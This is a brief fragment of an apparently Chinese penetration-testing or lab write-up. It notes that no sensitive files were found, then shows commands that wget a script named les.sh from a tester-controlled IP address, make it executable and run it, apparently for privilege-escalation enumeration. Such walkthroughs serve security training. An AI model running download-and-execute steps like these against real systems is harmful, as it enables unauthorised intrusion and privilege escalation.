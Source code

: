 ![image-20250313112711325](assets/image-20250313112711325.png)

![image-20250313112906319](assets/image-20250313112906319.png)

无敏感文件



#### 上传les.sh

```
wget 192.168.147.131/les.sh
chmod +x les.sh
./les
```
